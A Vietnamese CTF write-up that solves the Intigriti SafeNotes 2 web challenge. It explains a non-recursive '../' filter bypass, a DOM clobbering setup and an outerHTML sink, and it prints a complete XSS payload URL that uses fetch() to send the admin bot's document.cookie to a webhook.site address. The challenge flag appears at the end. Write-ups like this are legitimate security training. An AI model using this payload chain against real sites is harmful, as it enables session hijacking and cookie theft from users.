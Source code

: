 ![image](../img/38.png)

1 chall khá hay, mình sẽ viết theo cách hiểu của mình nhé
, có chỗ nào sai sót ae thông cảm và chỉ mình thêm

chall cho source, mình cũng đã dùng thử như người thường nhưng ko thấy gì đặc biêt, view source code nào

![image](../img/39.png)


flag nằm ở cookie của admin/bot 
nó có chức năng report, có lẽ cái `/visit` cắm tới cái đó
![image](../img/40.png)


đây là route `/report` trong view.py
![image](../img/41.png)

 chỗ này thì mình không thấy có gì nguy hiểm 
 
 ![image](../img/42.png)

trong route `/create` và `/view`cũng vậy, ko có gì đâu ae

![image](../img/43.png)
![image](../img/44.png)

ở đây nó có gọi tới 3 API, mình cần tìm xem nó được gọi ở đâu trên FE

![image](../img/45.png)

đây, tại đây nó gọi tới API `/api/notes/fetch/<note_id>` nhưng note_id đã được bằng cách replace `../`, cái này bypass dễ thôi vì nó ko đệ quy

![image](../img/46.png)

func này thì nó call tới api `/api/notes/log/<username>` với username được lấy từ id `username.innerText`, tức là lấy trong HTML trên FE

tiếp tục sử dụng replace `../`, bypass dễ dàng

mình chú ý đoạn JSON nó truyền vào tại dòng 77 đến 80, sau đó nó lại gán cho id `debug-content` và sử dụng ` outerHTML`, đây là 1 hàm có thể thay đổi DOM, nguy hiểm !!!


![image](../img/47.png)

còn 1 route `/contact` này sẽ cần dùng tới nhé ae :v 


Tổng kết lại: Mình cần bypass replace `../` để thoát khỏi API, gọi tới view để inject param `name` vào và tìm cách thay thế id `username` trong DOM bằng param đó, sau đó XSS lấy cookie bot/admin

tiến hành tạo note
```
<div id="debug-content-section">
    <div id="debug-content"></div>
</div>

<div id="username"></div>
```
lấy note_id


OK, payload

```
https://safenotes2-2.ctf.intigriti.io/view?name=....//....//....//contact%23<img src=x onerror=fetch(`https://webhook.site/2abb0528-f136-461b-b280-cd9a71f1521a?cookie=`%2bdocument.cookie) />&note=ca5ec7d5-2d48-4c40-af34-b016636031fa
```

![image](../img/48.png)

FLAG: `INTIGRITI{54f3n0735_3_w1ll_b3_53cur3_1_pr0m153}`
